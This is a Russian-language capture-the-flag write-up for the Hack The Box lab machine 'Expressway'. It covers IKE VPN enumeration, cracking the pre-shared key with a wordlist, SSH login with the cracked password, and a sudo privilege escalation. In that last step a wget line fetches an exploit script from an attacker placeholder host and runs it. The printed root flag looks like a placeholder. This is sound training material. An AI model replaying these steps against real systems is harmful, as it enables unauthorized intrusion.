 # 📝 Write-up: Expressway (Hack The Box)

Difficulty: EasyPlatform: Hack The BoxTarget IP (Lab): 10.10.11.87Link: Expressway @ HTB  

## 🎯 Summary
Expressway — легкая Linux-машина на Hack The Box. Основные этапы:  

* Первичный доступ: Эксплуатация уязвимости IKE VPN (PSK-аутентификация).  
* Горизонтальная эскалация: Брутфорс PSK для получения учетных данных пользователя ike.  
* Эскалация до root: Эксплуатация уязвимой версии sudo (CVE-2025-52352).


### 🔒 Prerequisites

Это write-up для учебной среды Hack The Box. Не используйте против реальных систем!  
Убедитесь, что IP 10.10.11.87 доступен в вашей лабораторной сети.  
Замените <YOUR_IP> на IP вашей атакующей машины, если потребуется обратный шелл.


### 🔍 Reconnaissance
Сканирование портов
Запустил сканирование с помощью nmap для обнаружения открытых портов и сервисов:  

* nmap -sC -sV -Pn 10.10.11.87

Результат:  
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


*  UDP-сканирование:  
sudo nmap -sV -sU 10.10.11.87

Результат:  
PORT     STATE         SERVICE   VERSION
68/udp   open|filtered dhcpc
69/udp   open          tftp      Netkit tftpd or atftpd
500/udp  open          isakmp?
4500/udp open|filtered nat-t-ike 

### 🕵️ Enumeration
IKE VPN (порт 500/udp)
Обнаружен IKE VPN на порту 500/udp. Проверил с помощью ike-scan:  
```bash
ike-scan -M 10.10.11.87
```
Результат:  
10.10.11.87    Main Mode Handshake returned
        HDR=(CKY-R=cafb0b8cafb3ba5a)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Нашел PSK-хэш и сохранил его в файл expressway_hash.txt: 
``` 9c261863d58af7ab93251af8ad92210554240953dd0f8bafd663315d7c29a27a4a847d8a93c607ee8294930d6b4ae0091d423b12e8c22c0a0d9d6e76c0ec980f36824a26ac9d5d46d80ab1d5c6570059e33e748db9da5d1bf11979e7c74d4d4560d6dafa39d6dc9c60f677cd646175d91995bfa17d755668cb2051267464c4b2:8700f898db0322ac21f5bfeb912134c5eafab352072f74f2b651f465840dfdab2dc2de63f08b3ff67776398382fbb9d5701ff967a99c0ad4e3d6844b5a18b7ebb3dec6f79069cd46f7a6a8c70c56924b90233e97e3598cfe149f3aa4972f466892e0220358d4a0caddebfa9b6d9fd51716cdf36d22b65abcc24dbea351ae5956:df853e76cc0e1a92:eb268ade151021e0:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:cf34dd472d6b434c73d6e0ed4f881b2a8bb3415e:ff1f67ec60cbe57ccd257bfcb681f7d381eb2a1476816501de70b66d08079641:e15c87caec0c2b87336238542e86a691e121d7ac ```


### 🛠️ Exploitation
Брутфорс PSK
Использовал psk-crack с словарем rockyou.txt для подбора PSK:
```bash  
psk-crack -d /usr/share/wordlists/rockyou.txt expressway_hash.txt
```
Результат:  
``` key "freakingrockstarontheroad" matches SHA1 hash e15c87caec0c2b87336238542e86a691e121d7ac ```
Время: 11.176 секунд (719871.55 итераций/сек)

* Доступ по SSH
Использовал полученный пароль для подключения под пользователем ike:  
```bash
ssh ike@10.10.11.87
Password: freakingrockstarontheroad
```
Вывод:  
```bash
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64
Last login: Wed Sep 17 10:26:26 BST 2025 from 10.10.14.77
```

#### 🏴 User Flag
Прочитал флаг user.txt:  
```bash
cat user.txt
740745a467294d55f8189932b4a1865d
```

### 🔝 Privilege Escalation
Проверка системы
Проверил версию ОС:  
uname -a
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64 GNU/Linux

Проверил версию sudo: 
```bash 
sudo -V
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

#### Эксплуатация CVE-2025-52352
* Нашел уязвимость в версии sudo 1.9.17: CVE-2025-52352.  
Скачал и выполнил PoC:  
wget http://<YOUR_IP>:8000/cve-2025-52352.sh -O /tmp/exploit.sh
chmod +x /tmp/exploit.sh
/tmp/exploit.sh

* Получил root-доступ и прочитал root.txt:  
```bash
cat /root/root.txt
b7a4b7a4b7a4b7a4b7a4b7a4b7a4b7a4
```

### 📌 Conclusion
Expressway — отличная машина для изучения эксплуатации IKE VPN и уязвимостей sudo.
Спасибо за чтение! Надеюсь, этот write-up поможет в освоении пентеста.